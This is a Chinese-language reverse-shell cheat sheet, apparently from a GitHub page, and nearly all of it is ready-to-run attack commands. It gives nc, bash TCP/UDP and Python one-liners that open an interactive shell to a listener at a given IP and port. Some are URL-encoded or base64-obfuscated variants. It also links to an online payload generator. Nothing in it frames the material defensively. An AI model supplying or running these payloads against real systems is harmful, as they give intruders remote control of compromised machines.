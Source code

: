 
## playlad在线生成

- https://forum.ywhack.com/shell.php


## nc反弹shell

```
nc -e /bin/sh 192.168.56.102 1234
nc -c bash 192.168.56.102 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 8080 >/tmp/f
```

## bash TCP反弹shell

```
/bin/sh -i >& /dev/tcp/192.168.56.102/1234 0>&1
/bin/bash -i >& /dev/tcp/192.168.56.102/1234 0>&1
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.56.102/1234 0>&1"
/bin/bash%20-c%20%22/bin/bash%20-i%20%3E%26%20/dev/tcp/192.168.56.102/1234%200%3E%261%22
bash -c 'exec bash -i &>/dev/tcp/192.168.169.129/1234 <&1'
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvODA4MCAwPiYx}|{base64,-d}|{bash,-i}
rm -rf /tmp/p; mknod /tmp/p p; /bin/sh 0</tmp/p | nc 192.168.8.143 8888 1>/tmp/p
```
## Bash UDP反弹shell

```
sh -i >& /dev/udp/127.0.0.1/8080 0>&1
nc -u -lvp 8080
```
## python反弹shell

<https://tool.4xseo.com/a/22182.html>

直接反弹

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```

export RHOST="127.0.0.1";export RPORT=8080;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
